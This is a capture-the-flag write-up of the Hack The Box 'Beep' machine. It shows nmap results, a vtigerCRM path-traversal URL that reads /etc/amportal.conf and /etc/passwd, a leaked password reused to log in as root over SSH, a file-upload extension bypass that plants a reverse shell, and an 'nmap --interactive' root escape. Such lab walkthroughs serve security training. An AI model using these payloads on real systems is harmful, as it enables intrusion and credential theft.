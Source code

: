 ```yaml
---
title:     "Hack The Box - Beep"
tags: [linux,easy,setuid,cve,lfi,file-upload-vuln]
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/1.png)

We are going to pwn Beep from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/5>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
878/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt


22/tcp    open   ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|printer|specialized
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (95%), Osmosys embedded (94%), HP embedded (94%), Enterasys embedded (94%), Riverbed RiOS (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.6.18 cpe:/h:linksys:wrv54g cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:enterasys:ap3620 cpe:/o:riverbed:rios cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.18 (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.30 (95%), Linux 2.6.5 (Fedora Core 2) (95%), Linux 2.6.5 - 2.6.12 (95%), Elastix PBX (Linux 2.6.18) (95%), Linksys WRV54G WAP (95%), Linux 2.6.27 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host:  beep.localdomain
80/tcp    open   http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open   pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS EXPIRE(NEVER) APOP UIDL RESP-CODES PIPELINING AUTH-RESP-CODE TOP LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) USER
111/tcp   open   rpcbind    2 (RPC #100000)
143/tcp   open   imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ANNOTATEMORE ID ATOMIC OK LISTEXT URLAUTHA0001 Completed QUOTA IMAP4rev1 LIST-SUBSCRIBED SORT LITERAL+ X-NETSCAPE RIGHTS=kxte MAILBOX-REFERRALS CONDSTORE IMAP4 UIDPLUS IDLE SORT=MODSEQ MULTIAPPEND THREAD=ORDEREDSUBJECT THREAD=REFERENCES UNSELECT CHILDREN BINARY STARTTLS NAMESPACE NO RENAME ACL CATENATE
443/tcp   open   ssl/https?
|_ssl-date: 2019-12-01T13:40:51+00:00; +1h00m15s from scanner time.
878/tcp   open   status     1 (RPC #100024)
993/tcp   open   ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open   pop3       Cyrus pop3d
3306/tcp  open   mysql      MySQL (unauthorized)
4190/tcp  open   sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open   upnotifyp?
4559/tcp  open   hylafax    HylaFAX 4.3.10
5038/tcp  open   asterisk   Asterisk Call Manager 1.1
10000/tcp open   http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/1%OT=22%CT=5%CU=35487%PV=Y%DS=2%DC=T%G=Y%TM=5DE3B55
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=CC%GCD=1%ISR=CC%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## HTTP Enumeration

While checking the webpage , it is an ``Elastix Login page``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/2.png)

So I searched in Searchsploit but there is more exploit and I cant find any version of it in the webpage 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/3.png)

Lets start randomly and this one looks interesting 

> https://www.exploit-db.com/exploits/37637


``` /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action ```

This is an LFI exploit and it worked!
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/4.png)

And I found some credentials

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/5.png)

``` admin:jEhdIekWmdjE ```

Using the same LFI let's see ``/etc/password`` and found an user ``fanis``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/6.png)

We know the user so I tried to see the user flag
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/7.png)
And yeah, I got the user flag!!

Now Lets try to log in and see what in ``Elastix``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/8.png)
I cant find any vulnerabilities or any loop holes.

## Method 1 of getting Root

I checked if there is any other vulnerability available on other ports and It doesnt look like any so I just tried login with the creds we found from the LFI in ssh ```root:jEhdIekWmdjE```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/9.png)

We are root!

## Method 2 (File Upload Vulnerability)

From the LFI I came to know there is another login page ``/vtigercrm`` it is an ``vtigerCRM``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/10.png)

I tried login with the same creds we found before ``admin:jEhdIekWmdjE``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/11.png)
It looks like they use same creds for all xD

I found we can change the logo so we can try to upload our payload.
It is in Settings -> Company Details
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/12.png)

I uploaded my reverse shell as ``shell.php.jpg`` and intercept it with burp and then change the extension back to ``shell.php``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/13.png)

I changed the extension to ``.php`` and forwarded. 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/14.png)

I check the source code to see the location of the logo.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/15.png)
It is in ``/test/logo/``

So listening on my machine, I got the shell<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/16.png)

## Privilege Escalation

While checking ``sudo -l``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/17.png)

User ``asterisk`` can run these without root permission so i chose ``nmap`` from this.

I searched in GTFOBins

><https://gtfobins.github.io/gtfobins/nmap/>

So I tried it

```
nmap --interactive
nmap> !sh
```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-beep/18.png)

I'm Root now!



